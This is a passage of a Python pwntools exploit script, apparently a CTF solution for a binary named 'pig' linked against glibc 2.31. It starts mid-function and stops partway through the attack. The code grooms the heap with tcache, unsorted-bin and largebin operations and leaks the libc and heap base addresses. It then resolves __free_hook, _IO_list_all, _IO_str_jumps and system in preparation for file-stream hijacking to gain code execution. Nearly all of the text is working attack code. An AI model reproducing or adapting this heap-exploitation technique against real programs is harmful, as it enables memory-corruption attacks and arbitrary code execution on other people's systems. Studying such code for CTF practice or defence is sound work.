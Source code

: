 ```python
    sh.sendafter("message: ",payload)

def delete_message(idx):
    sh.sendlineafter("Choice: ",'4')
    sh.sendlineafter("index: ",str(idx))

def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")

sh = process("./pig")
libc = ELF("./libc-2.31.so")

change_rol(2)
for i in range(5):
    add_message(0x90,'tcache size\n' * (0x90 // 48))
    delete_message(i)
change_rol(1)
for i in range(7):
    add_message(0x150,'tcache size\n' * (0x150 // 48))
    delete_message(i)
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 7*
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 8
delete_message(7)
change_rol(2)
add_message(0xB0,'split7\n' * (0xB0 // 48)) # 5
change_rol(1)
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 9*
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 10
delete_message(9)
change_rol(2)
add_message(0xB0,'split9\n' * (0xB0 // 48)) # 6
# prepare done
change_rol(1)
add_message(0x410,'leak_libc\n' * (0x410 // 48)) # 11
add_message(0x410,'largebin\n' * (0x410 // 48)) # 12
add_message(0x410,'\n' * (0x410 // 48)) # 13
delete_message(12)

change_rol(2)
change_rol(1)
view_message(12)
sh.recvuntil("is: ")
libc_base = u64(sh.recv(6).ljust(8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 96
view_message(5)
sh.recvuntil("is: ")
heap_base = u64(sh.recv(6).ljust(8,'\x00')) - 0x12750
log.success("libc_base: " + hex(libc_base))
log.success("heap_base: " + hex(heap_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]
_IO_list_all_addr = libc_base + libc.sym["_IO_list_all"]
#_IO_str_jump_addr = libc_base + libc.sym["_IO_str_jump"]
_IO_str_jump_addr = libc_base + 0x1ED560
system_addr = libc_base + libc.sym["system"]
############################### leak done ###############################
add_message(0x410,'get back\n' * (0x410 // 48)) # 14
change_rol(2)
add_message(0x420,'largebin\n' * (0x420 // 48)) # 7
```